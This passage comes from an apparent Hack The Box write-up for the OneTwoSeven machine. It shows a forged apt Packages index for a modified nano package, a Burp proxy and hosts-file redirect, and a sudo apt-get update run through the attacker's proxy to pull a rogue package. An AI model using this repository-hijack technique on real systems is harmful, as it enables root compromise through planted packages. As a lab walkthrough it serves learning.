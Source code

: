 The `/devuan/dists/ascii/main/binary-amd64/Packages` file contains the modified version number, updated filename and checksums:

```
# cat Packages
Package: nano
Version: 3.0.0
Installed-Size: 2043
Maintainer: Jordi Mallach <jordi@debian.org>
Architecture: amd64
Replaces: pico
Provides: editor
Depends: libc6 (>= 2.14), libncursesw5 (>= 6), libtinfo5 (>= 6), zlib1g (>= 1:1.1.4)
Conflicts: pico
Homepage: https://www.nano-editor.org/
Description: small, friendly text editor inspired by Pico
Description-md5: 04397a7cc45e02bc3a9900a7fbed769c
Suggests: spell
Tag: implemented-in::c, interface::text-mode, role::program, scope::utility,
 suite::gnu, uitoolkit::ncurses, use::editing, works-with::text
Section: editors
Priority: important
Filename: pool/DEBIAN/main/n/nano/nano_3.0.0_amd64.deb
Size: 484680
MD5sum: 2aed07eb168f2dcafcc0f6311d33ace0
SHA256: 7f256355537f78c672d5f8aff6de00c63a026306df6e120b2ee8eaaa503d923c
```

Next I setup Burp to listen on all interfaces:

![](/assets/images/htb-writeup-onetwoseven/burp.png)

Then modify `/etc/hosts` to point the apt repositories to my own box:

```
127.0.0.1 packages.onetwoseven.htb de.deb.devuan.org
```

I can force the server to connect through my Kali VM by setting the `http_proxy` variable so it uses the Burp proxy. My local host file points the repo domain to 127.0.0.1 so it connects to my Python webserver.

```
www-admin-data@onetwoseven:/$ sudo http_proxy=http://10.10.14.23:8080 apt-get update
Ign:1 http://packages.onetwoseven.htb/devuan ascii InRelease
Ign:2 http://de.deb.devuan.org/merged ascii InRelease
Get:3 http://packages.onetwoseven.htb/devuan ascii Release [420 B]
Ign:4 http://de.deb.devuan.org/merged ascii-security InRelease
Ign:5 http://packages.onetwoseven.htb/devuan ascii Release.gpg
Ign:6 http://de.deb.devuan.org/merged ascii-updates InRelease
Err:7 http://de.deb.devuan.org/merged ascii Release
  404  File not found
Ign:8 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Err:9 http://de.deb.devuan.org/merged ascii-security Release
  404  File not found
Get:8 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages [770 B]
```